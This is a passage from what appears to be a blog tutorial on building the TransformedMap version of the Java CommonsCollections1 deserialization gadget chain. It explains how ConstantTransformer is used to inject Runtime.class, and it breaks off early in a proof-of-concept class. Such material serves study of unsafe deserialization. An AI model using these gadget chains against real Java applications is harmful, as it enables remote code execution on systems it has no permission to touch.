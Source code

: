 ![](../assets/posts/2023-09-09-The-TransformedMap-version-of-the-Java-Deserialization-CommonsCollections1/7.png)

Here, we can make use of the previously introduced `ConstantTransformer` class by adding it to the `chainedTransformer` call chain. This is because the `transform()` method of this class will always return the `iConstant` value from its constructor, regardless of the parameter passed.

```java
public ConstantTransformer(Object constantToReturn) {
    super();
    iConstant = constantToReturn;
}

public Object transform(Object input) {
    return iConstant;
}
```
{: .nolineno}

Since the `iConstant` value is controllable, we can set it to `Runtime.class`, allowing it to be passed to the subsequent `chainedTransformer` chain call, eliminating the need to focus on the value in `memberValue.setValue()`.

```java
package com.B1ng0OOO;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Demo {
    public static void main(String[] args) {
        try {
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
```